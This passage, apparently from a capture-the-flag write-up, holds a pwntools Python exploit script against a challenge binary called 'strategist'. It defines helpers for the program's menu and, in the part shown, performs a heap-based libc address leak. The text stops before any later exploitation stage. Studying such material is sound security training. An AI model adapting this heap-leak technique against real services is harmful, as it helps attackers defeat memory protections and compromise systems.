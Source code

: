 ### Full exploit
---
```py
#!/usr/bin/env python3

from pwn import *

exe = ELF("strategist")
libc = ELF("glibc/libc.so.6")
ld = ELF("glibc/ld-linux-x86-64.so.2")

context.binary = exe
#context.log_level = "debug"

global r
def conn():
    global r
    if args.LOCAL:
        r = process([exe.path])
    elif args.GDB:
        r = gdb.debug([exe.path], "b *main+61")
    else:
        r = remote("addr", 1337)

    return r

def create_plan(size: int, plan: bytes):
    r.sendlineafter(b"> ", b"1")
    info(f"Create plan of size {size}: {str(plan)}")
    r.sendlineafter(b"> ", str(size).encode())
    r.sendafter(b"> ", plan)

def show_plan(index: int):
    r.sendlineafter(b"> ", b"2")
    info(f"Show plan {index}")
    r.sendlineafter(b"> ", str(index).encode())
    r.recvuntil(str(index).encode() + b"]: ")
    return r.recvline(False)

def edit_plan(index: int, plan: bytes):
    r.sendlineafter(b"> ", b"3")
    info(f"Edit plan {index} to: {str(plan)}")
    r.sendlineafter(b"> ", str(index).encode())
    r.sendafter(b"> ", plan)

def delete_plan(index: int):
    r.sendlineafter(b"> ", b"4")
    info(f"Delete plan {index}")
    r.sendlineafter(b"> ", str(index).encode())

def main():
    conn()

    # Leak libc base
    create_plan(0x410, b'a')
    create_plan(8, b'b')
    delete_plan(0)
    delete_plan(1)
    create_plan(0x410, b'\xa0') # Use pwndbg to get this byte, it's always the same!
    leak = u64(show_plan(0).ljust(8, b"\x00"))
    libc.address = leak - libc.sym.main_arena - 96
    success(f'Libc base: {hex(libc.address)}')
    delete_plan(0)
```